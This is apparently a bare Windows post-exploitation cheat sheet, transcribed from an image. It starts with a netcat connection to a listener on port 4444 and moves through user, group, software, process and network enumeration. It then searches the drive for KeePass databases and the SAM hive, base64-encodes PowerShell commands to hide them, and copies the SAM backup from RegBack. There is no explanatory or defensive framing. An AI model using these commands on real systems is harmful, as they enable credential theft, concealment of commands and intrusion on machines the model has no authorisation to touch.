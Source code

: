 `nc 192.168.50.220 4444`
`whoami`
`whoami /groups`
`Get-LocalUser`
`Get-LocalUser -Name "username" | Select-Object \*`
`Get-LocalGroup`
`Get-LocalGroupMember Administrators`
`systeminfo`
`ipconfig /all`
`route print`
`netstat -ano`

Installed Applications:

32 Bit:
`Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname`

64 Bit:
`Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname`

`Get-Process`

`Get-ChildItem -Path C:\ -Include \*.kdbx -File -Recurse -ErrorAction SilentlyContinue`

`Get-ChildItem -Path C:\ -Include SAM -File -Recurse -ErrorAction SilentlyContinue`

`Get-ChildItem -Path C:\ -Include _.txt,_.ini -File -Recurse -ErrorAction SilentlyContinue | Select-String -Pattern "YourSearchString"`

`$command = "Get-Process"`
`$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)`
`$encodedCommand = [Convert]::ToBase64String($bytes)`
`powershell.exe -EncodedCommand $encodedCommand`

`Copy-Item -Path "$env:SystemRoot\System32\Config\RegBack\SAM" -Destination "C:\Path\To\NewLocation\SAM"`
